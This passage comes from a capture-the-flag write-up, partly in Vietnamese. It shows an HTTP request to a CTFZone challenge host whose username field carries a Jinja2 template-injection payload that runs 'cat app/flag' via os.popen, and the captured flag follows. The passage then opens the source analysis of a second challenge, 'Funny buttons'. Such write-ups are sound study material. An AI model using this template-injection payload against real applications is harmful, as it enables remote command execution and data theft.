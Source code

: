 
```
POST /api/v1/UserComments HTTP/1.1
Host: old-but-gold.ctfz.zone
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: http://old-but-gold.ctfz.zone/profile
Content-Type: application/json
Content-Length: 123
Origin: http://old-but-gold.ctfz.zone
Connection: close
Cookie: access_token_cookie=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJmcmVzaCI6ZmFsc2UsImlhdCI6MTcyMzM2Mjc3MCwianRpIjoiYTZiN2E0N2YtNDY3ZS00ZTg3LTg0YWQtZGI3NWYxOTVlMWQ3IiwidHlwZSI6ImFjY2VzcyIsInN1YiI6Im1sZW1tbGVtMiIsIm5iZiI6MTcyMzM2Mjc3MCwiZXhwIjoxNzIzNDQ5MTcwfQ.Wpky92zcF4sz9SyzodyA57H3owu_m2Gf9GCAKtEoqzU
Priority: u=0

{"contents":"1",
"username": "{{self.__init__.__globals__.__builtins__.__import__('os').popen('cat app/flag').read()}}"
}
```


![image](https://hackmd.io/_uploads/SkLZugU90.png)

flag: `CTFZone{h0w_d1d_y0u_f0und_rny_g0ld!!1!_3bca97c049e57af4be84e8e24f2cdb21}`


## web/Funny buttons [9 solves]

Đến với một challenge websocket + redis để lưu thông tin người dùng được tương tác qua redisClient chỉ có một chức năng đơn giản là đăng kí đăng nhập -> click button -> và ta có thể set thông điệp cho từng button và get nó thông qua DOM event tương tác với websocket.

- Vì author cho source nên ta sẽ đi vào phân tích luôn:

### analysis

```
// server.js

const express = require('express');
const session = require('express-session');
const http = require('http');
const { Server } = require("socket.io");

const exphbs  = require('express-handlebars');
const RedisStore = require("connect-redis").default
const { redisClient, db } = require('./db');
const { authorize, onConnection } = require('./socket.io')


const HOST = '0.0.0.0';
const PORT = process.env.PORT ?? '3000';
const SESSION_SECRET = process.env.SESSION_SECRET ?? 'secret';
const FLAG = process.env.FLAG ?? 'CTFZONE{redactedfunnyhere}';

const app = express();
const server = http.createServer(app);
const io = new Server(server);
const hbs = exphbs.create();

app.use(express.urlencoded({ extended: false }));
```